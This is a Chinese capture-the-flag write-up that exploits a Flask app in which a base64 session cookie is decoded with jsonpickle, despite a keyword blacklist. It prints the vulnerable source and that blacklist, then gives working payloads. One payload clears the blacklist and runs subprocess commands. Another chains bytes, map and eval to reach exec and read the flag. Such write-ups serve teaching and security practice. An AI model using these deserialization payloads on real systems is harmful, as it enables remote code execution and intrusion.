

成功回显了根目录下的文件，证明我们的思路是正确的

有一个flag和readflag文件，先尝试读一下flag

```python
payload = {
    "py/object": "__main__.Session",
    "meta": {
        "user": {"py/object" : "linecache.getlines","py/newargs" : ["/flag"]},
        "ts": int(time.time()),
    }
}
```

但是没有返回内容，估计是有权限，那么就想到需要RCE去执行readflag了

## 厚积薄发

先读一下源码/app/app.py，拿到后有点乱，丢给ai处理一下

```python
from flask import Flask, request, make_response, render_template, redirect, url_for
import jsonpickle
import base64
import json
import os
import time

app = Flask(__name__)
app.secret_key = os.urandom(24)

class Account:
    def __init__(self, uid, pwd):
        self.uid = uid
        self.pwd = pwd

class Session:
    def __init__(self, meta):
        self.meta = meta

users_db = [
    Account("admin", os.urandom(16).hex()),
    Account("guest", "guest")
]

def register_user(username, password):
    for acc in users_db:
        if acc.uid == username:
            return False
    users_db.append(Account(username, password))
    return True

FORBIDDEN = [
    'builtins', 'os', 'system', 'repr', '__class__', 'subprocess', 'popen', 'Popen', 'nt',
    'code', 'reduce', 'compile', 'command', 'pty', 'platform', 'pdb', 'pickle', 'marshal',
    'socket', 'threading', 'multiprocessing', 'signal', 'traceback', 'inspect', '\\\\', 'posix',
    'render_template', 'jsonpickle', 'cgi', 'execfile', 'importlib', 'sys', 'shutil', 'state',
    'import', 'ctypes', 'timeit', 'input', 'open', 'codecs', 'base64', 'jinja2', 're', 'json',
    'file', 'write', 'read', 'globals', 'locals', 'getattr', 'setattr', 'delattr', 'uuid',
    '__import__', '__globals__', '__code__', '__closure__', '__func__', '__self__', 'pydoc',
    '__module__', '__dict__', '__mro__', '__subclasses__', '__init__', '__new__'
]

def waf(serialized):
    try:
        data = json.loads(serialized)
        payload = json.dumps(data, ensure_ascii=False)
        for bad in FORBIDDEN:
            if bad in payload:
                return bad
        return None
    except:
        return "error"

@app.route('/')
def root():
    return render_template('index.html')

@app.route('/register', methods=['GET', 'POST'])
def register():
    if request.method == 'POST':
        username = request.form.get('username')
        password = request.form.get('password')
        confirm_password = request.form.get('confirm_password')
        
        if not username or not password or not confirm_password:
            return render_template('register.html', error="所有字段都是必填的。")
        
        if password != confirm_password:
            return render_template('register.html', error="密码不匹配。")
        
        if len(username) < 4 or len(password) < 6:
            return render_template('register.html', error="用户名至少需要4个字符，密码至少需要6个字符。")
        
        if register_user(username, password):
            return render_template('index.html', message="注册成功！请登录。")
        else:
            return render_template('register.html', error="用户名已存在。")
        
    return render_template('register.html')

@app.post('/auth')
def auth():
    u = request.form.get("u")
    p = request.form.get("p")
    for acc in users_db:
        if acc.uid == u and acc.pwd == p:
            sess_data = Session({'user': u, 'ts': int(time.time())})
            token_raw = jsonpickle.encode(sess_data)
            b64_token = base64.b64encode(token_raw.encode()).decode()
            resp = make_response("登录成功。")
            resp.set_cookie("authz", b64_token)
            resp.status_code = 302
            resp.headers['Location'] = '/panel'
            return resp
    return render_template('index.html', error="登录失败。用户名或密码无效。")

@app.route('/panel')
def panel():
    token = request.cookies.get("authz")
    if not token:
        return redirect(url_for('root', error="缺少Token。"))
    
    try:
        decoded = base64.b64decode(token.encode()).decode()
    except:
        return render_template('error.html', error="Token格式错误。")
    
    ban = waf(decoded)
    if waf(decoded):
        return render_template('error.html', error=f"请不要黑客攻击！{ban}")
    
    try:
        sess_obj = jsonpickle.decode(decoded, safe=True)
        meta = sess_obj.meta
        
        if meta.get("user") != "admin":
            return render_template('user_panel.html', username=meta.get('user'))
        
        return render_template('admin_panel.html')
    except Exception as e:
        return render_template('error.html', error=f"数据解码失败。")

@app.route('/vault')
def vault():
    token = request.cookies.get("authz")
    if not token:
        return redirect(url_for('root'))

    try:
        decoded = base64.b64decode(token.encode()).decode()
        if waf(decoded):
            return render_template('error.html', error="请不要尝试黑客攻击！")
        sess_obj = jsonpickle.decode(decoded, safe=True)
        meta = sess_obj.meta
        
        if meta.get("user") != "admin":
            return render_template('error.html', error="访问被拒绝。只有管理员才能查看此页面。")
        
        flag = "NepCTF{fake_flag_this_is_not_the_real_one}"
        
        return render_template('vault.html', flag=flag)
    except:
        return redirect(url_for('root'))

@app.route('/about')
def about():
    return render_template('about.html')

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=8000, debug=False)
```

当看到黑名单的时候心就已经凉了一半

```python
FORBIDDEN = [
    'builtins', 'os', 'system', 'repr', '__class__', 'subprocess', 'popen', 'Popen', 'nt',
    'code', 'reduce', 'compile', 'command', 'pty', 'platform', 'pdb', 'pickle', 'marshal',
    'socket', 'threading', 'multiprocessing', 'signal', 'traceback', 'inspect', '\\\\\\\\', 'posix',
    'render_template', 'jsonpickle', 'cgi', 'execfile', 'importlib', 'sys', 'shutil', 'state',
    'import', 'ctypes', 'timeit', 'input', 'open', 'codecs', 'base64', 'jinja2', 're', 'json',
    'file', 'write', 'read', 'globals', 'locals', 'getattr', 'setattr', 'delattr', 'uuid',
    '__import__', '__globals__', '__code__', '__closure__', '__func__', '__self__', 'pydoc',
    '__module__', '__dict__', '__mro__', '__subclasses__', '__init__', '__new__'
]
```

### 方法一：清理黑名单

这个方法来自LAMENTXU师傅的文章https://www.cnblogs.com/LAMENTXU/articles/19007988

具体是什么样的呢？

用到一个内置函数list.clear()




我们本地测试一下



因为这里的黑名单也是list类型，那我们是否可以调用FORBIDDEN.clear()去清空黑名单呢？

写个poc

```python
payload = {
    "py/object": "__main__.Session",
    "meta": {
        "user": {"py/object" : "__main__.FORBIDDEN.clear","py/newargs" : []},
        "ts": int(time.time()),
    }
}
```



返回none，那我们检验一下是否被置空了

```python
{"py/object" : "subprocess.run","py/newargs" : ["whoami"]}
```



这里的话因为run函数执行之后是返回一个对象，所以没有回显，但是返回0是说明执行成功了，那我们尝试换成subprocess.getoutput

```python
{"py/object" : "subprocess.getoutput","py/newargs" : ["whoami"]}
```



成功回显，那我们RCE执行/readflag就行了



### 方法二：map类触发

`map()`函数的基本语法如下：

```
map(function, iterable, ...)
```

- `function`: 一个函数，用于对每个可迭代对象的元素执行操作。
- `iterable`: 一个或多个可迭代对象，可以是列表、元组、集合等。
  所以map的参数需要用`[]`或者`{}`包裹

但是map中的函数触发是需要被类用才能触发，比如bytes，list类接受迭代器参数初始化的时候

我们写个demo测试一下

```python
import os  
import builtins  

result = (map(os.system, 'echo 111'))  
result1= bytes(map(os.system, ['echo 123']))
```

这里只返回了123，说明bytes类能触发map的函数调用

**bytes在new的时候会触发map的实例化**，比如这样就可以触发rce,

所以最终的poc

```python
    payload = {
        "py/object": "app.Session",
        "meta": {
            "user": {
                "py/object": "__builtin__.bytes",
                "py/newargs": {
                    "py/object": "__builtin__.map",
                    "py/newargs": [
                        {"py/function": "__builtin__.eval"},
                        [f"exec({chr_command})"],
                    ],
                },
            },
            "ts": int(time.time()),
        },
    }
```
